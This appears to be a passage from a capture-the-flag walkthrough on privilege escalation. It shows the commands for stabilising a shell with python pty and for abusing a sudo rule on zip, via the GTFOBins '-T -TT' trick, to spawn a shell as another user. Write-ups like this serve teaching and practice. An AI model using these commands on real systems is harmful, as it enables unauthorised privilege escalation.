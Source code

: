 

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(dalia)**

```
ls
cat flag.txt
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

Dalia can run the zip command as silvio

**Exploit:** [https://gtfobins.github.io/gtfobins/zip/](https://gtfobins.github.io/gtfobins/zip/)

**Victim(dalia)**

```
sudo -l
TF=$(mktemp -u)
sudo -u silvio zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

